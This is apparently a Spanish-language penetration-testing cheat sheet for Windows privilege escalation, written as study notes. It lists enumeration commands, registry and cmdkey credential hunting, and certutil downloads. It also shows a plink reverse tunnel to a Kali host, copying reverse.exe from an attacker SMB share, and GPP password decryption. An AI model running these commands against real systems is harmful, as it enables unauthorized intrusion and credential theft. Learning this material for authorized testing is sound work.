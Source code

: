 ### Enumeración del sistema[](#enumeracion-del-sistema)

```python
	systeminfo
	
	systeminfo | findstr /B /C: "OS Name" /C: "OS Version" /C: "System Type"
	
	wmic qfe get Caption, Description, HotFixID, InstalledOn #Muestra actualizaciones del sistema
	
	wmic logicaldisk get caption, description, providername #Muestra discos
```
### Enumeración de usuarios[](#enumeracion-de-usuarios)

```python
whoami

whoami /priv

whoami /groups

net user

net user <USUARIO>

net localgroup

net localgroup <GRUPO>
```
#### 

Enumeración de red[](#enumeracion-de-red)

ip a

ifconfig

route

ip route

aipconfig

ipconfig /all #Información extendida

arp -a

route print

netstat -ano

#### 

Búsqueda de archivos[](#busqueda-de-archivos)

#CMD

where /r c:\ file.txt

#Powershell

Get-ChildItem -Path C:\Myfolder -Filter file.txt -Recurs

#### 

Búsqueda de credenciales[](#busqueda-de-credenciales)

#Valores en el registro que contengan la string “password”

reg query HKLM /f password /t REG_SZ /s

#Listar autologon passwords

reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\winlogon"

#Lista contraseñas guardadas

cmdkey /list

[

![](https://github.com/fluidicon.png)

PayloadsAllTheThings/Windows - Privilege Escalation.md at master · swisskyrepo/PayloadsAllTheThings

GitHub





](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#eop---looting-for-passwords)

#### 

Enumeración de antivirus[](#enumeracion-de-antivirus)

sc query windefend

sc queryex type= service #Lista servicios activos

netsh advfirewall firewall dump

#### 

Enumeración con herramientas automáticas[](#enumeracion-con-herramientas-automaticas)

[

![](https://github.com/fluidicon.png)

Release Release refs/heads/master 20230108 · carlospolop/PEASS-ng

GitHub





](https://github.com/carlospolop/PEASS-ng/releases/tag/20230108)

[

![](https://github.com/fluidicon.png)

GitHub - bitsadmin/wesng: Windows Exploit Suggester - Next Generation

GitHub





](https://github.com/bitsadmin/wesng)

### 

Funciones básicas[](#funciones-basicas)

#### 

Descarga de archivos[](#descarga-de-archivos)

certutil.exe -urlcache -f <URL> <OUTPUT_FILE>

#### 

Comprobación de permisos sobre un archivo[](#comprobacion-de-permisos-sobre-un-archivo)

accesschk.exe /accepteula -quvw <user> <Ruta absoluta del archivo>

#### 

Ejecución de un programa como otro usuario en Powershell[](#ejecucion-de-un-programa-como-otro-usuario-en-powershell)

powershell -c "$password = ConvertTo-SecureString '<PASSWORD>' -AsPlainText -Force; $creds = New-Object System.Management.Automation.PSCredential('<USER>', $password);Start-Process -FilePath "<PROGRAM.EXE>" -Credential $creds"

#### 

Windows Port Forwarding[](#windows-port-forwarding)

plink.exe -l <KALI_USER> -pw <KALI_USER_PASS> -R <KALI_PORT>:<LOCAL_IP/LOCALHOST_IP>:<LOCAL_PORT> <KALI_IP>

#### 

Transferencia de archivos mediante smb[](#transferencia-de-archivos-mediante-smb)

sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py kali . #Kali

copy \\10.10.10.10\kali\reverse.exe C:\PrivEsc\reverse.exe #Windows

#### 

Desencriptado GPP[](#desencriptado-gpp)

gpp-decrypt "<hash>"
